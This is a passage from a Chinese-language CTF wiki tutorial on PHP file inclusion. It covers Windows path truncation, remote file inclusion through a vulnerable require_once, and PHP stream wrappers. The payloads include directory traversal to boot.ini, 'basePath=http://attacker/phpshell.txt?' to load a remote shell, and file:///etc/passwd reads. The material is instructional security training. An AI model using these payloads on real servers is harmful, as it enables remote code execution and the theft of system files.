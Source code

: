   ```
  ?file=../../../../../../../../../boot.ini/………[…]…………
  ```

  **只适用 Windows**，点号需要长于 256。

### 远程文件包含[¶](https://ctf-wiki.github.io/ctf-wiki/web/php/#_3)

远程文件包含，Remote File Inclusion，RFI。

```
<?php
if ($route == "share") {
  require_once $basePath . "/action/m_share.php";
} elseif ($route == "sharelink") {
  require_once $basePath . "/action/m_sharelink.php";
}
```

构造变量 `basePath` 的值。

```
/?basePath=http://attacker/phpshell.txt?
```

最终的代码执行了

```
require_once "http://attacker/phpshell.txt?/action/m_share.php";
```

问号后的部分被解释为 URL 的 querystring，这也是一种「截断」。

利用协议

```
file:// 访问本地文件系统，?p=file:///etc/passwd
http:// 访问http网址
ftp:// 访问FTP
php:// 访问I/O stream
zlib:// 压缩流
data:// 数据（RFC2397）
glob:// 查找匹配文件路径模式
phar:// PHP归档，解压缩包
zip:// 读zip文件，"zip://test.zip#file.txt"中的"#"要编码为%23
ssh2:// secure shell2
rar:// RAR
ogg:// 音频流
expect:// 处理交互式的流
```

- 普通远程文件包含

  ```
  ?file=[http|https|ftp]://example.com/shell.txt
  ```

  需要 `allow_url_fopen=On` 并且 `allow_url_include=On` 。
